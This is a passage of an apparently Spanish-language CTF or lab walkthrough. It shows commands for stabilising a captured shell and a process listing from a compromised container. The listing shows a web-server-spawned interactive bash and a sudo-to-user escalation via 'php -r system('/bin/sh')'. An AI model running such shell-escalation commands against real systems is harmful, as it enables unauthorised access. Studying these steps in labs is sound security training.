 ![chocolateuser.png](assets/chocolateuser.png)

vamos a hacer un tratamiento de la tty:

```bash
script /dev/null -c bash
# Dale a CTRL + Z y aunque parezca que se vaya la consola introduce los siguientes comandos:

stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
#Aqui ajustamos las filas y columnas

stty size NUM_FILAS NUM_COLUMNAS

stty rows NUM_FILAS columns NUM_COLUMNAS
```

Despues de enumerar permisos, enumero los procesos cronJobs y veo esto:

```bash
chocolate@95e336f4d2b4:/$ stty rows 38 columns 190
chocolate@95e336f4d2b4:/$ ps -faux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   2616  1536 ?        Ss   08:06   0:00 /bin/sh -c service apache2 start && while true; do php /opt/script.php; sleep 5; done
root          25  0.0  0.2 201396 21976 ?        Ss   08:06   0:00 /usr/sbin/apache2 -k start
www-data      38  0.0  0.1 201620 12768 ?        S    08:06   0:00  \_ /usr/sbin/apache2 -k start
www-data    2689  0.0  0.0   2616  1536 ?        S    09:56   0:00  |   \_ sh -c uname -a; w; id; bash -i
www-data    2693  0.0  0.0   4116  3328 ?        S    09:56   0:00  |       \_ bash -i
root        2718  0.0  0.0   5012  3456 ?        S    09:57   0:00  |           \_ sudo -u chocolate /usr/bin/php -r system('/bin/sh');
chocola+    2719  0.0  0.2  67024 20136 ?        S    09:57   0:00  |               \_ /usr/bin/php -r system('/bin/sh');
chocola+    2720  0.0  0.0   2616  1408 ?        S    09:57   0:00  |                   \_ sh -c /bin/sh
chocola+    2721  0.0  0.0   2616  1536 ?        S    09:57   0:00  |                       \_ /bin/sh
chocola+    2730  0.0  0.0   2644  1920 ?        S    09:57   0:00  |                           \_ script /dev/null -c bash
chocola+    2731  0.0  0.0   4116  3328 pts/0    Ss   09:57   0:00  |                               \_ bash
chocola+    2819  0.0  0.0   2644  1792 pts/0    S+   10:00   0:00  |                                   \_ script /dev/null -c bash
chocola+    2820  0.0  0.0   4248  3072 pts/1    Ss   10:00   0:00  |                                       \_ bash
chocola+    2895  0.0  0.0   5900  2816 pts/1    R+   10:03   0:00  |                                           \_ ps -faux
```